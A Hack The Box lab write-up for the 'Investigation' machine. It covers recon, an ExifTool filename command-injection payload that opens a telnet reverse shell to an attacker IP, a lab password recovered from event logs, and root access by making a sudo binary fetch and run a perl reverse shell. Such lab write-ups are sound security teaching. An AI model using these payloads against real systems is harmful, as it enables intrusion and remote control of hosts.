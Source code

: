 +++ 
title = "Investigation HTB Write up"
description = "Write up for the HTB machine 'Investigation'"
author = "greatmoves"
tags = ["exiftool", "perl", "hackthebox", "binary ninja", "reverse engineering", "sudo -l", "digital forensics"]
date = 2023-03-02
+++
- [1. Initial Recon](#1-initial-recon)
  - [1.1. nmap](#11-nmap)
  - [1.2. nikto](#12-nikto)
- [2. website recon](#2-website-recon)
  - [2.1. ExifTool](#21-exiftool)
- [3. user.txt](#3-usertxt)
  - [3.1. file system recon](#31-file-system-recon)
  - [3.2. .msg file](#32-msg-file)
- [4. root.txt](#4-roottxt)
  - [4.1. investigating the binary](#41-investigating-the-binary)
    - [4.1.1. binary ninja](#411-binary-ninja)
    - [4.1.2. final payload](#412-final-payload)

## 1. Initial Recon
----
### 1.1. nmap
cmd `nmap -sC -sV 10.10.11.197`
- From the nmap scan we get the url `http://eforenzics.htb/` which we can add to /etc/hosts
- We have port 22 ssh and port 80 http
### 1.2. nikto
cmd `nikto -host 10.10.11.197`
- found nothing interesting
## 2. website recon
----
- /service.html has a file upload service
    - uploading any image file reveals the ExifTool Version Number 12.37
### 2.1. ExifTool
A quick google search for ExifTool reveals a command injection vulnerability for that version number
- https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429
  - ```Exiftool versions < 12.38 are vulnerable to Command Injection through a crafted filename. If the filename passed to exiftool ends with a pipe character | and exists on the filesystem, then the file will be treated as a pipe and executed as an OS command.```

Our payload will be in the name of the file that we upload to the web application

After trying some payloads from revshells we can eventually use:
- payload: `TF=$(mktemp -u);mkfifo $TF && telnet 10.10.x.x 4444 0<$TF | sh 1>$TF |`
## 3. user.txt
Once we have our reverse shell let's obtain a fully interactive shell with:
`python3 -c 'import pty;pty.spawn("/bin/bash");'`

### 3.1. file system recon
After some recon of the file system we find the directory `/usr/local/investigation`
- from here we can also find our username: `smorton`

Let's download the files

- On the victim machine spin up a http server using `python3 -m http.server`
- On your attacking machine run `curl http://10.10.11.197:8000/Windows%20Even%20Logs%20for%20Analysis.msg > out.msg`

### 3.2. .msg file
Now we need to find what to do with a `.msg` file. Thankfully we can use `https://www.encryptomatic.com/viewer/` to analyse it for us, which will lead us to downloading a zip file, extract the file from the zip.

Now we've got a `.evtx` file and we've gotta figure out what to do with that.
- here's a python module that can help with that `https://pypi.org/project/python-evtx/`
  - run `python3 evtx_dump.py security.evtx > out.json`

In the event logs we can look for basic logon events [Audit logon events (Windows)](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/basic-audit-logon-events)
- The code `4625` is for a `Logon failure. A logon attempt was made with an unknown user name or a known user name with a bad password.`

We can search for this in the event log using `grep`
- `cat out.json | grep "4625" -C 10 > grep.out`
  
From the output of our grep command we can find a password: `Def@ultf0r3nz!csPa$$`

Now we can ssh into the machine with the credentials
```
smorton:Def@ultf0r3nz!csPa$$
```

navigate to `/home/smorton` for `user.txt`
## 4. root.txt
when we run `sudo -l` we can see that there's a binary the user is allowed to run
```
User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

So let's investigate this binary. Same as above let's spin up a http server using python3 on the victim machine and download the binary
- run `python3 -m http.server` on the victim machine
- run `curl http://10.10.11.197:8000/binary > binary.out` on your attacking machine

### 4.1. investigating the binary
let's start by running `strings binary.out`
```
...
Exiting... 
lDnxUysaQn
Running... 
perl ./%s
rm -f ./lDnxUysaQn
...
```

from this we can gather that
- perl is being run on a string
- `lDnxUysaQn` has some significance

#### 4.1.1. binary ninja
binary ninja allows us to decompile the binary and get an idea of what the main function of the binary is doing
{{< highlight c "linenos=inline" >}}
    0000144a      if (argc != 3)
    00001453          puts(str: "Exiting... ")
    0000145d          exit(status: 0)
    0000145d          noreturn
    00001469      if (getuid() != 0)
    00001472          puts(str: "Exiting... ")
    0000147c          exit(status: 0)
    0000147c          noreturn
    0000149d      if (strcmp(argv[2], "lDnxUysaQn") != 0)
    00001687          puts(str: "Exiting... ")
    00001691          exit(status: 0)
    00001691          noreturn
    000014aa      puts(str: "Running... ")
    000014c4      FILE* rax_8 = fopen(filename: argv[2], mode: &data_2027)
    000014cd      int64_t rax_9 = curl_easy_init()
    000014d6      int32_t var_40 = 0x2712
    000014f9      curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712)
    000014fe      int32_t var_3c = 0x2711
    0000151a      curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711)
    0000151f      int32_t var_38 = 0x2d
    0000153c      curl_easy_setopt(rax_9, 0x2d, 1, 0x2d)
    00001554      if (curl_easy_perform(rax_9) != 0)
    00001671          puts(str: "Exiting... ")
    0000167b          exit(status: 0)
    0000167b          noreturn
    00001583      int64_t rax_25 = sx.q(snprintf(s: nullptr, maxlen: 0, format: &data_202a, argv[2]))
    00001594      char* rax_28 = malloc(bytes: rax_25 + 1)
    000015c6      snprintf(s: rax_28, maxlen: rax_25 + 1, format: &data_202a, argv[2])
    000015ed      int64_t rax_37 = sx.q(snprintf(s: nullptr, maxlen: 0, format: "perl ./%s", rax_28))
    000015fe      char* rax_40 = malloc(bytes: rax_37 + 1)
    00001629      snprintf(s: rax_40, maxlen: rax_37 + 1, format: "perl ./%s", rax_28)
    00001635      fclose(fp: rax_8)
    00001641      curl_easy_cleanup(rax_9)
    0000164b      setuid(uid: 0)
    00001657      system(line: rax_40)
    00001663      system(line: "rm -f ./lDnxUysaQn")
{{< / highlight >}}

from this we can gather
- the program requires 2 arguments (line 1)
- the second argument must be `lDnxUysaQn` (line 9)
- curl is being used on argument 1 (line 17, line 22)
  - [man page for curl_easy_perform](https://linux.die.net/man/3/curl_easy_perform)
- perl is being run with system (line 31, line 35)

so let's construct a command to run on the victim machine so that it meets the above requirements

#### 4.1.2. final payload
`sudo /usr/bin/binary 10.10.x.x:80/payload.pl lDnxUysaQn`
- we need to be running the binary as sudo, so we need `sudo /usr/bin/binary` at the start
- the first argument is being curled, so let's use `python3 -m http.server 80` to host our payload
  - `10.10.x.x:80/payload.pl` is so the binary curls from our machine
- perl is being run, so let's make our payload a perl script for a reverse shell
  - from [revshells](https://www.revshells.com/) get a perl reverse shell
- finally, `lDnxUysaQn` is required at the end

Spin up the http server on your attacking machine along with a netcat listener

finally, our netcat listener will catch a reverse shell as the root user.